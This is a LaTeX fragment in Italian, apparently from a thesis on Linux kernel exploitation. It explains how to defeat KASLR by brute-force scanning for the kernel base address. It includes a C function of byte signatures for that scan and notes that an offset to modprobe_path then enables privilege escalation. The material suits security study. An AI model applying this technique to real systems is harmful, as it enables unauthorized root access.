 \documentclass{article}
\begin{document}
\subsubsection{Superare KASLR}
Per utilizzare la tecnica di privilege escalation presentata in \cref{s:pe-linux}, 
bisogna conoscere l'indirizzo fisico in cui si trova il kernel. Grazie agli script in 
\cite{KernelSig}, è possibile ricavare una signature del kernel con la quale ispezionare 
la memoria. In generale, si tratta di una operazione veloce in quanto il kernel si trova 
allineato ad indirizzi multipli di di $2MiB$ (con la variabile \textbf{\textit{CONFIG\_PHYSICAL\_ALIGN}}). 

Lo script consente di effettuare un attacco bruteforce per individuare l'indirizzo base del 
kernel. In particolare, genera uno snippet di codice $C$ (mostrato di seguito e che può
essere facilmente esteso per supportare diversi kernel). 

\begin{lstlisting}[language=C,style=CStyle,caption="Signature calcolate con lo script fornito dall'autore dell'exploit"]
static int is_kernel_base(unsigned char *addr)
{
	// thanks python
	
	// get-sig kernel_runtime_1
	if (memcmp(addr + 0x0, "\x48\x8d\x25\x51\x3f", 5) == 0 &&
			memcmp(addr + 0x7, "\x48\x8d\x3d\xf2\xff\xff\xff", 7) == 0)
		return 1;

	// get-sig kernel_runtime_2
	if (memcmp(addr + 0x0, "\xfc\x0f\x01\x15", 4) == 0 &&
			memcmp(addr + 0x8, "\xb8\x10\x00\x00\x00\x8e\xd8\x8e\xc0\x8e\xd0\xbf", 12) == 0 &&
			memcmp(addr + 0x18, "\x89\xde\x8b\x0d", 4) == 0 &&
			memcmp(addr + 0x20, "\xc1\xe9\x02\xf3\xa5\xbc", 6) == 0 &&
			memcmp(addr + 0x2a, "\x0f\x20\xe0\x83\xc8\x20\x0f\x22\xe0\xb9\x80\x00\x00\xc0\x0f\x32\x0f\xba\xe8\x08\x0f\x30\xb8\x00", 24) == 0 &&
			memcmp(addr + 0x45, "\x0f\x22\xd8\xb8\x01\x00\x00\x80\x0f\x22\xc0\xea\x57\x00\x00", 15) == 0 &&
			memcmp(addr + 0x55, "\x08\x00\xb9\x01\x01\x00\xc0\xb8", 8) == 0 &&
			memcmp(addr + 0x61, "\x31\xd2\x0f\x30\xe8", 5) == 0 &&
			memcmp(addr + 0x6a, "\x48\xc7\xc6", 3) == 0 &&
			memcmp(addr + 0x71, "\x48\xc7\xc0\x80\x00\x00", 6) == 0 &&
			memcmp(addr + 0x78, "\xff\xe0", 2) == 0)
		return 1;


	return 0;
}

\end{lstlisting}

Una volta trovato l'indirizzo base del kernel, si può aggiungere un offset per trovare 
la variable \textbf{\textit{modprobe\_path}} per effettuare privilege escalation come mostrato 
in \cref{s:pe-linux}.
\end{document}

